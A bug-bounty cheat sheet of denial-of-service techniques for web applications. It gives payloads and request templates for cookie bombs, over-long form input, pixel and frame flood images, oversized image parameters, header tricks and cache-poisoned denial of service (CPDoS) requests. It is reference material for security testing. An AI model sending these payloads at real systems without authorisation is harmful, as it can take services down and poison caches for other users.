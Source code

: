 ## 1. denial of service with web cache poisoning
```
https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning
```
## 2. DOS using 
``` (((((()0))))) ```

```
https://hackerone.com/reports/993582?__cf_chl_jschl_tk__=pmd_d4edfa2689d4773535bd4991c5ac1b735467eca6-1628409964-0-gqNtZGzNAeKjcnBszQ0O
```

## 3. Overflow Trilogy ( HTTP Response Splitting with Header Overflow | Denial of Service with Cookie Bomb | DOM based Cookie Bomb )
https://blog.innerht.ml/overflow-trilogy/



## 4. Cookie bomb
   
    ```
    https://target.com/index.php?param1=xxxxxxxxxxxxxx
    ```
After input "xxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

## 5. Try input a very long payload to form. For example using very long password or using very long email
    ```
    POST /Register
    [...]

    username=victim&password=aaaaaaaaaaaaaaa
    ```

## 6. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/128/5f5a974e5f67ab7a11d2d92bd40f8997969f2f17/lottapixel.jpg?response-content-disposition=attachment%3B%20filename%3D%22lottapixel.jpg%22%3B%20filename%2A%3DUTF-8%27%27lottapixel.jpg&response-content-type=image%2Fjpeg&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQYFO7EZHL%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110133Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFIaCXVzLXdlc3QtMiJGMEQCIGgY3dUtffr4V%2BoxTJaFxc%2F7qjRodT3XLyN1ZLEF8%2FhfAiAXklx1Zvy3iKIGm1bocpDUP1cTx46eTbsDOKqRC93fgyq0AwhbEAEaDDAxMzYxOTI3NDg0OSIMH9s8JiCh%2B%2FNADeibKpEDocuqfbmxkM5H5iKsA3K4RuwcxVT9ORLJrjJO%2FILAm%2BcNsQXTgId%2Bpw1KOLkbFKrq0BQIC6459JtfWqHPXvDC7ZJGboQ%2FXE0F%2BAZQa6jaEyldrkKuDewNy5jy3VX1gquS%2BWrGl%2BGhwmXB4cg1jgOugGUsC%2FxD%2BcragIJAtGA7lp3YdcL%2FiQbnvuzmLP8w%2FyCHPUrpOw94bPOk8fpetOJoLmDfXZdL3hLGBEUGS7dSOoyebLSXGZDctkSpnXCq383lWYWYn0LSv1ooVvuCVzgxE%2BZi4b4QvLjjMG3FJdEX%2BDYmnDvnSrRoDtyj8bD3cP3xbZ3jaNYRbIlQTm2zR1DgoaDGE74FmpZWHcyC8zK0V6AKG6OzkcIaGRnGdDNSpZkN0DrWE7uY6BLiIGY16rflYOaElnbxijoMNDsU3MZH8gGk7crYJ%2FCeHeayInPBDgiREBgn7orAIjOY3xg8vzwKO96a90LmkK7wk977TbKfLIng1iNP9EMKYDjGePdBYDML9zBeqhO5LrVH%2BfbwzG5GXi0w5fnn%2BgU67AFRBwMChVRr%2FLW4j0PqpXUeN5ysVIuagoqSwqOhfwI9rtk56zTuGhO3du4raY5SOQ9vSkRdYHhga%2BW7oQTByD1ISiSaOjHs1s%2FrNfvIfMA8r0drPSykOdCuV2A5NhBpEPpT%2BuOosogdPihcORhO3hbcQJ9y4uxBsaBSJr%2F8S2CGjwZw7SOGmNaNFsPu%2BMRbYDA%2FH2eUMBl96w6KpUuNAXEPUcfq3weRMP1vXW62S4OyniYJ6DEVRkkE4eFZMUqy4c94uwSAegK54Po0V0sPM%2FncTESCgBf7Qe2zZlPhdRGZR%2F25cF6JTH0t2VIRQw%3D%3D&X-Amz-Signature=a837cb6b26bf437fa5008695310a21788918081c36e745d286c5cba9fd4a78e0)

## 7.Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

## 8. Sometimes in website we found a parameter that can adjust the size of the image, for example
```
https://target.com/img/vulnerable.jpg?width=500&height=500
```
Try change "500" to "99999999999"
```
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

## 9. Try changing the value of the header with something new, for example:
```
Accept-Encoding: gzip, gzip, deflate, br, br
```

## 10. Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests

## 11. ReDoS (Regex DoS) occurs due to poorly implemented RegEx

## 12. CPDoS ([Cache Poisoned Denial of Service](https://cpdos.org/))
- HTTP Header Oversize (HHO)
  
  A malicious client sends an HTTP GET request including a header larger than the size supported by the origin server but smaller than the size supported by the cache
  ```
  GET /index.html HTTP/1.1
  Host: victim.com
  X-Oversized-Header-1: Big_Value 
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Header size exceeded
  ```
- HTTP Meta Character (HMC)
  
  this attack tries to bypass a cache with a request header containing a harmful meta character. Meta characters can be, e.g., control characters such as line break/carriage return (\n), line feed (\r) or bell (\a).

  ```
  GET /index.html HTTP /1.1
  Host: victim.com
  X-Meta-Malicious-Header: \r\n
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Character not allowed
  ```
- HTTP Method Override (HMO)

  There are several headers present in HTTP Standard that allow modifying overriding the original HTTP header. Some of these headers are:
  ```
  1. X-HTTP-Method-Override
  2. X-HTTP-Method
  3. X-Method-Override
  ```
  The header instructs the application to override the HTTP method in request.
  ```
  GET /index.php HTTP/1.1
  Host: victim.com
  X-HTTP-Method-Override: POST
  ```
  The response is
  ```
  HTTP/1.1 404 Not Found
  ...
  POST on /index.php not foudn
  ```

- X-Forwarded-Port
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Port: 123
  ```

- X-Forwarded-Host
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Host: www.hackerone.com:123
  ```
  
![Response DoS](https://portswigger.net/cms/images/6f/83/45a1a9f841b9-article-screen_shot_2018-09-13_at_11.08.12.png)

References:
- [Hackerone #840598](https://hackerone.com/reports/840598)
- [Hackerone #105363](https://hackerone.com/reports/105363)
- [Hackerone #390](https://hackerone.com/reports/390)
- [Hackerone #400](https://hackerone.com/reports/400)
- [Hackerone #751904](https://hackerone.com/reports/751904)
- [Hackerone #861170](https://hackerone.com/reports/861170)
- [Hackerone #892615](https://hackerone.com/reports/892615)
- [Hackerone #511381](https://hackerone.com/reports/511381)
- [Hackerone #409370](https://hackerone.com/reports/409370)
- [CPDoS](https://cpdos.org/)
